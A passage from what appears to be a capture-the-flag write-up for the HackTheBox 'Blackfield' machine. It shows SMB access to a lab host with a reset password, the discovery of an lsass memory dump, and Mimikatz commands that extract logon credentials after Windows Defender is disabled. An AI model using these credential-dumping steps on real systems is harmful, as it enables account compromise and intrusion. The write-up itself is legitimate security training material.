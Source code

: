 Trying to reset the password for svc_backup fails but works for audit2020.

![pass_reset](/images/blackfield/pass_reset.png)

The password can subsequently be used to login to the target
-
**User 3 svc_backup:**


Upon smb authentication, there are 3 folders commands_output,memory_analysis,tools. 

```
root@kali:~# smbclient \\\\10.10.10.192\\forensic -U"audit2020%Password1"
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Feb 23 15:03:16 2020
  ..                                  D        0  Sun Feb 23 15:03:16 2020
  commands_output                     D        0  Sun Feb 23 20:14:37 2020
  memory_analysis                     D        0  Thu May 28 23:28:33 2020
  tools                               D        0  Sun Feb 23 15:39:08 2020

                7846143 blocks of size 4096. 4052156 blocks available
smb: \> cd memory_analysis\

```

These appear to be be investigation files including forensic's kits and memory sample.

The memomry_analysis folder is the most interesting folder and it contails memory dummp. Amongst which is the lsass dump in a zip file. 

Lsass enforces security policies, handles passwords and creates access tokens. Since lsas is known to hold passwords in memory, a search for how to extract these passwords is performed a lot of results on how to do this using Mimikatz, or Volatility with the mimikatz module.

<u>**Mimikatz Password Extraction**</u>

After going through the article on ired.team, which shows how to extract NT hashes from an LSASS dump
https://ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz

Mimikatz was downloaded to a windows host, windows defender and virus protection disabled, and then ran with the instructed commands:
```
sekurlsa::minidump c:\users\admin\downloads\lsass.DMP 

sekurlsa::logonPasswords full
```